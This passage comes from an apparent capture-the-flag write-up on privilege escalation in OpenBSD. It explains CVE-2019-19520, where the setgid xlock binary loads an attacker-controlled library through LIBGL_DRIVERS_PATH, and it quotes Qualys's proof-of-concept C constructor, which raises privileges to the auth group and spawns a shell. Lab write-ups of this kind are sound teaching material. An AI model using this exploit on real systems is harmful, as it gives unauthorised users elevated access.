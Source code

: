 
And grab `root.txt`:

    
    
    openkeys# cat root.txt
    f3a553b1************************
    

### Manual CVE-2019-19520

#### Overview

`xlock` is program that locks the screen and waits for the user to re-enter
their password. There is a check (in `xenocara/lib/mesa/src/loader/loader.c`)
to make sure that SUID binaries can’t use the `LIBGL_DRIVERS_PATH` environment
variable. This makes sense, because otherwise anyone could set the path to a
directory they control, create a malicious library/driver that is loaded by a
SUID binary, and then they get a shell as the owner of that binary.

The vulnerability is that the check in OpenBSD checks for SUID, but forgets
about SetGUID binaries:

    
    
    113    if (geteuid() == getuid()) {
    114       /* don't allow setuid apps to use LIBGL_DRIVERS_PATH */
    115       libPaths = getenv("LIBGL_DRIVERS_PATH");
    

`xlock` runs as the `auth` group:

    
    
    openkeys$ ls -l /usr/X11R6/bin/xlock
    -rwxr-sr-x  1 root  auth  3138520 Oct 12  2019 /usr/X11R6/bin/xlock
    

It also tries to load a driver named `swrast_dri.so`. So the attack is
basically to drop a malicious library file with a `static void __attribute__
((constructor)) _init (void)` function that will just exec a shell.

#### Shell

The proof of concept in the Qualys paper uses the following:

    
    
    #include <paths.h>
    #include <sys/types.h>
    #include <unistd.h>
    
    static void __attribute__ ((constructor)) _init (void) {
        gid_t rgid, egid, sgid;
        if (getresgid(&rgid, &egid, &sgid) != 0) _exit(__LINE__);
        if (setresgid(sgid, sgid, sgid) != 0) _exit(__LINE__);
    
        char * const argv[] = { _PATH_KSHELL, NULL };
        execve(argv[0], argv, NULL);
        _exit(__LINE__);
    }
    